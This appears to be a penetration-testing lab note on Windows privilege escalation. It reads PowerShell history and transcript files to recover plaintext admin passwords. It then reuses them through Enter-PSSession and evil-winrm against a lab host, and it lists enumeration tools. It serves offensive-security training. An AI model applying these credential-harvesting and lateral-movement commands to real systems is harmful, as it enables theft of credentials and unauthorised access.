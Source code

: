 Get password creds and valuable info from this.

```
$PSVersionTable
Register-SecretVault -Name pwmanager -ModuleName SecretManagement.keepass -VaultParameters $VaultParams
Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager
cd C:\
ls
cd C:\xampp
ls
type passwords.txt
Clear-History
Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
exit
Stop-Transcript
```

Curious what the credentials used in $cred for the PSSession are.

Analyzing transcript file 

`type C:\Users\Public\Transcripts\transcript01.txt`

This file does contain the info used to create the $cred file

```hlt:3,4,5
**********************
Transcript started, output file is C:\Users\Public\Transcripts\transcript01.txt
PS C:\Users\dave> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
PS C:\Users\dave> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
PS C:\Users\dave> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

Copying three highlighted commands and using them in our initial access bind shell to get a PS session as daveadmin

`$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)`

`Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred`

Note: Creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behavior. 

Use #evilwinrm to connect using dave's creds 

`evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"`

### Automated Enumeration

Tools:
[[WinPEAS]]
[[Seatbelt]]
[[JAWS]]
